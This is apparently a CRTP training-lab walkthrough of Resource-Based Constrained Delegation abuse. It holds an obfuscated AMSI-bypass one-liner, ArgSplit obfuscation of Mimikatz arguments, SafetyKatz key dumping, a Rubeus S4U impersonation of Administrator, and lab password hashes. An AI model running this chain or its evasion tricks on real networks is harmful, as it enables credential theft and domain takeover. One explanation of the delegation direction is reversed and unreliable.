



CRTP - Certified Red Team Professional
Resource-Based Constrained Delegation (RBCD)
Resource-Based Constrained Delegation (RBCD)
Resource-Based Constrained Delegation (RBCD) is a feature in Windows Server 2012 that allows resources to configure which accounts are trusted to delegate to them. This is different from classic constrained delegation, which is configured on the account itself.
Key Features
1. msDS-AllowedToActOnBehalfOfOtherIdentity Attribute: RBCD uses this attribute to store a security descriptor for the object that can access the resource. This attribute controls resource-based delegation.
1. Security: RBCD is considered more secure than classic constrained delegation because it provides authentication support for across-domain service solutions using an existing Kerberos infrastructure without the need for unconstrained delegation.
Abuse Scenarios
1. Creating a Computer Object: An attacker can create a new computer account using PowerMad, which is allowed due to the default MachineAccountQuota value.
This allows them to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute to contain a security descriptor with the computer account they control.
1. Write Permissions: The attacker needs write permission over the target computer to set the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
1. SPN Configuration: The attacker needs control over an object that has SPN configured or the ability to add a new machine account to the domain.
Comparison with Constrained Delegation
1. Configuration: Constrained delegation is configured on the account itself, while RBCD is configured on the resource or computer account.
1. msDS-AllowedToDelegateTo and msDS-AllowedToActOnBehalfOfOtherIdentity Attributes: Constrained delegation uses msDS-AllowedToDelegateTo to store a list of target services that a service configured for delegation can access as another user. RBCD uses msDS-AllowedToActOnBehalfOfOtherIdentity to store a list of services that can access a target service as another user.
1. Security: RBCD is considered more secure than classic constrained delegation because it provides authentication support for across-domain service solutions using an existing Kerberos infrastructure without the need for unconstrained delegation.
Enumerating RBCD
Let's use PowerView from a PowerShell session to enumerate Write permissions for a user that we have compromised.
SAM Username: ciadmin
Hash NTLM: e08253add90dccf1a208523d02998c3d
aes256_hmac:1bbe86f1b5285109dd1450b55ed8851c220b81cc187f9af64e4048ed25083879
Assuming that we do have AV enabled on the machine or network, let’s run InvisiShell to bypass script blocking mechanisms and bypass AMSI as well.
RunWithRegistryNonAdmin.bat

AMSI Bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )We can enumerate this via BloodHound or using PowerView.
I will focus this enumeration via PowerView since my focus in on one specific user to far.
Assuming that I already have compromised a list of users and its secrets(credentials), after enumerating one by one I was able to find some interesting information from user CIADMIN.
Since I already have a session as ciadmin I will start enumerating as ciadmin.
. .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

The output from Find-InterestingDomainACL indicates that ciadmin has GenericWrite rights on the machine account DCORP-MGMT, which can be used to abuse RBCD.
OK, now let’s set RBCD on dcorp-mgmt for our own machine. We will do it using PowerView module.
. .\PowerView.ps1
Set-DomainRBCD -identity dcorp-mgmt -DelegateFrom 'DCORP-STD451$' -Verbose

Let’s now confirm that RBCD was properly configured from our previous Set-DomainRBCD command
Get-DomainRBCD

The output indicates that the RBCD configuration for DCORP-MGMT$ has been set to delegate access to DCORP-STD451$. This means that DCORP-MGMT$ can act on behalf of DCORP-STD451$ in the context of Kerberos authentication.
We can get our own AES keys because we configure our machine for it using SafetyKatz.
Using PELoader.exe for args encoding.
Back to cmdlet, PELoader.exe is a tool used to load a payload into memory. So I’ll use PELoader.exe now to load and execute Rubeus.exe into memory. Pay attention that if we are using PELoader.exe to load payloads into memory only. It is also good that we execute ArgSplit.bat first to encode parameters of Rubeus, SafetyKatz and BetterSafetyKatz.
ArgSpli.bat
sekurlsa:ekeys
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"Now we execute SafetyKatz to get the all AES Keys.
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn%" "exit”
Username : dcorp-std451$
Domain : DOLLARCORP.MONEYCORP.LOCAL
Password : (null)
aes256_hmac:73a9a0be0edcfe618992946c2639cafaf2003a6d6e94ca0c79eb59c4b17d3409Now let’s use Rubeus to abuse this RBCD and access DCORP-MGMT as Domain Administrator “Administrator”.
ArgSplit.bat
s4u
set "z=u"
set "y=4"
set "x=2"
set "Pwn=%x%%y%%z%"Now we execute Rubeus to access DCORP-MGMT machine as Administrator(Domain Admin)
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:DCORP-STD451$ /aes256:73a9a0be0edcfe618992946c2639cafaf2003a6d6e94ca0c79eb59c4b17d3409 /msdsspn:HTTP/dcorp-mgmt /impersonateuser:Administrator /ptt

We can see above that our ticket has been imported into our Cached Tickets.
klist

Now we can remotely access DCORP-MGMT machine with using our imported ticket.
winrs -r:dcorp-mgmt cmd